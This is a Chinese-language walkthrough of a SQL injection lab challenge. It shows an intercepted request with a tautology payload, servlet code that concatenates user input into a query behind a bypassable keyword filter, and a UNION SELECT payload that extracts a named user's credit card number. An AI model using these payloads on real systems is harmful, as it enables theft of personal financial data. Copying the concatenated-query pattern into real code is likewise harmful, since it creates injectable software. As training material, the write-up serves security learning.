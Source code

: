 # SQL Injection Challenge Three(SQL 注入 3 )

## 题介绍
需要利用SQL注入点获得用户Mary Martin的信用卡号字段的值  

## 功能实现 
请求的数据包  
```
POST /challenges/b7327828a90da59df54b27499c0dc2e875344035e38608fcfb7c1ab8924923f6 HTTP/1.1


theUserName=%22+or+%221%22%3D%221
```

对应的解析文件  src/main/java/servlets/module/challenge/SqlInjection3.java

```
log.debug("User Submitted - " + theUserName);
theUserName = SqlFilter.levelThree(theUserName);  //进行了过滤 
log.debug("Filtered to " + theUserName);
String ApplicationRoot = getServletContext().getRealPath("");
log.debug("Servlet root = " + ApplicationRoot );

log.debug("Getting Connection to Database");
Connection conn = Database.getChallengeConnection(ApplicationRoot, "SqlChallengeThree");
Statement stmt = conn.createStatement();
log.debug("Gathering result set");
ResultSet resultSet = stmt.executeQuery("SELECT customerName FROM customers WHERE customerName = '" + theUserName + "'");

// 具体过滤代码 
public static String SqlFilter.levelThree (String input)
{
	log.debug("Filtering input at SQL levelThree");
	input = input.toLowerCase();
	input = input.replaceAll("|", "").replaceAll("&", "").replaceAll("!", "").replaceAll("-", "").replaceAll(";", "");
	while(input.contains("or") || input.contains("true") || input.contains("false") || input.contains("and") || input.contains("is"))  //不允许出现这些字符 
		input = input.replaceAll("or", "").replaceAll("true", "").replaceAll("and", "").replaceAll("false", "").replaceAll("is", "");
	return input;
}
```

## 解题步骤  

当前SQL是查询用户名，要想获得另一个信用卡字段，必须使用联合查询，因此构造联合查询即可 
```  
Mary Martin' union select creditcardnumber from customers where customername='Mary Martin'#
```
怎样猜到信用卡字段?  
根据题的说明即可，拼接出来  
## 总结  

由于输入验证不当导致的问题，增加一些校验，就会提高一些攻击门槛 